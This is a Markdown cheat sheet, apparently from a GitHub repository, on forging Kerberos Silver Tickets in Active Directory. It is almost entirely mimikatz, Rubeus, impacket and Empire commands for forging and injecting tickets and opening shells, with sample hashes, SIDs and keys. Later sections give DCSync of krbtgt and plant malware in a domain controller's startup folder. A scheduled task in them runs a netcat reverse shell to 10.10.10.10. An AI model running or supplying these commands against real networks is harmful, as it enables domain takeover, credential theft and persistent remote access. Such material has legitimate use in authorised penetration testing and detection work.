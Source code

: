 # SILVER TICKET

### A Silver Ticket can be obtained for services that use Kerberos as an authentication mechanism and are used to generate tickets to access that particular resource and the system that hosts the resource (e.g., SharePoint).

### Forging a Service Ticket (ST) require machine account password (key) or NT hash of the service account.

#### 1) mimikatz.exe

#### 2) privilege::debug

#### 3) lsadump::lsa /inject /name:SERVICE/DOMAIN ADMIN

### 1) Create a ticket for the service

 - mimikatz $ kerberos::golden /user:USERNAME /domain:DOMAIN.FQDN /sid:DOMAIN-SID /target:

 - mimikatz $ kerberos::golden /domain:jurassic.park /sid:S-1-5-21-1339291983-134912914

### 2) Use same steps as a golden ticket

 - mimikatz.exe "kerberos::golden /domain:DOMAIN /sid:DOMAIN_SID /rc4:HASH /user:USER /service:SERVICE /target:TARGET"

### Inject the ticket

 - mimikatz.exe "kerberos::ptt TICKET_FILE"

 - .\Rubeus.exe ptt /ticket:TICKET_FILE

### Obtain a shell

 - .\PsExec.exe -accepteula \\TARGET cmd

## Silver Ticket on Linux

 - python ticketer.py -nthash HASH -domain-sid DOMAIN_SID -domain DOMAIN -spn SERVICE_PRINCIPAL_NAME USER

 - export KRB5CCNAME=/root/impacket-examples/TICKET_NAME.ccache 

 - python psexec.py DOMAIN/USER@TARGET -k -no-pass

## Services to target with a Silver Ticket

### Service Type --> Service Silver Tickets --> Attack

#### 1) WMI --> HOST + RPCSS --> wmic.exe /authority:"kerberos:DOMAIN\DC01" /node:"DC01" process call create "cmd /c evil.exe"

#### 2) Powershell Remoting --> CIFS + HTTP + (wsman?) --> New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC

#### 3) WinRM --> HTTP+ wsman --> New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC

#### 4) Scheduled Tasks --> HOST --> schtasks /create /s dc01 /SC WEEKLY /RU "NT Authority\System" /IN "SCOM Agent Health Check" /IR "C:/shell.ps1"

#### 5) Windows File Share (CIFS) --> CIFS --> dir \\dc01\c$

#### 6) LDAP operations including Mimikatz DCSync --> LDAP --> lsadump::dcsync /dc:dc01 /domain:domain.local /user:krbtgt

#### 7) Windows Remote Server Administration Tools (RSAT) --> RPCSS + LDAP + CIFS --> /

# Silver Ticket Example

## Requirements: Machine account NTLM hash

### 1) Mimikatz

##### RC4

    Invoke-Mimikatz -Command '"kerberos::golden /domain:security.local /sid:S-1-5-21-3601687231-1513629788-1757802677 /target:dc01.security.local /service:CIFS /rc4:53b82af68b0faf6587971fe807fad960 /user:Viper /ptt"'

##### AES256

    Invoke-Mimikatz -Command '"kerberos::golden /domain:security.local /sid:S-1-5-21-3601687231-1513629788-1757802677 /target:dc01.security.local /service:CIFS /aes256:4d8daf60cf15651b283c9c180b04d4bd68a5b06592c0007697ae8de0700a21d5 /user:Viper /ptt"'

##### Open a new command prompt since we created and injected the ticket

    Invoke-Mimikatz -Command "misc::cmd"

##### Check if ticket has retained in the new session

    klist

##### List the C$ contents of our target

    dir \\DC01.domain.local\C$ (Cmd)

    ls -force \\DC01.domain.local\C$ (Powershell)

### 2) Rubeus

##### Forge and inject directly into the current process

    Rubeus.exe silver /service:cifs/dc01.security.local /aes256:f9647c8dba66c6576057167ab18d93582ea7fa1a8fd9b03b79d7d173644ff2e4 /user:Administrator /domain:security.local /sid:S-1-5-21-3601687231-1513629788-1757802677 /nowrap /ptt

OR

##### Forge and inject into new process (Cleaner)

# Forge silver ticket

    Rubeus.exe silver /service:cifs/dc01.security.local /aes256:f9647c8dba66c6576057167ab18d93582ea7fa1a8fd9b03b79d7d173644ff2e4 /user:Administrator /domain:security.local /sid:S-1-5-21-3601687231-1513629788-1757802677 /nowrap

##### Createnetonly process, username and password can be anything

    Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:Security.local /username:Administrator /password:NotRealPass

##### Take note of the LUID value of the output (IMPORTANT!). Inject the silver ticket into the new LUID session

    Rubeus.exe ptt /luid:0x12e0ab8 /ticket:doIFuj[...snip...]lDLklP

##### Impersonate the process token using the ProcessID from the output of the newly created process (Createnetonly)

    Invoke-SharpImpersonation -Command "pid:[PID]"

##### Check that the silver ticket has retained in our new shell process.

    klist

### 3) Empire C2

    powershell/credentials/mimikatz/silver_ticket

# Post Exploitation Techniques Examples

## Map drive

    net use Z: \\dc01.security.local\C$

## Copy malware to Domain Administrator startup folder on DC

    copy .\MaliciousFile.exe "\\dc01.security.local\c$\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"

## CMD 

    .\PsExec.exe -accepteula \\dc01.security.local cmd

## Netcat

    schtasks /create /sc minute /mo 1 /tn "Persistence" /tr 'c:\Users\Administrator\Downloads/nc.exe 10.10.10.10 443 -e cmd.exe'

# Other ticket combinations

| Technique           | Required Service Ticket |
|---------------------|--------------------------|
| PSexec              | CIFS                     |
| WinRm               | HOST & HTTP              |
| DCSync (DCs only)   | LDAP                     |
